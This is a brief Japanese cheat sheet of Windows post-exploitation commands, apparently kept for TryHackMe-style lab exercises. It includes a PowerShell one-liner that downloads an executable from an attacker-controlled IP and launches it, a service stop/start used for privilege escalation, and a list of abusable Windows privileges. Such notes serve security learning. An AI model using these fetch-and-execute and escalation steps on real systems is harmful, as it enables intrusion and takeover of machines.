 # Windows

### fileの発見
`dir flag* /s /p`

### スクリプト実行
`.\filename`

### fileをDL
`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.27.249:8000/sheshe.exe','sheshe.exe')"`

### powershellでプロセス実行
`powershell "Start-Process "sheshe.exe""`

### serviceのリスタート
```
sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

### 現在のユーザーの権限一覧
`whoami /priv`
特権に関しては[こちら](https://www.exploit-db.com/papers/42556)参照
特権使ったTryHackMeは[これ](https://qiita.com/sanpo_shiho/items/3f2c4595f20cd4133ab8)

#### 怪しい特権
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege
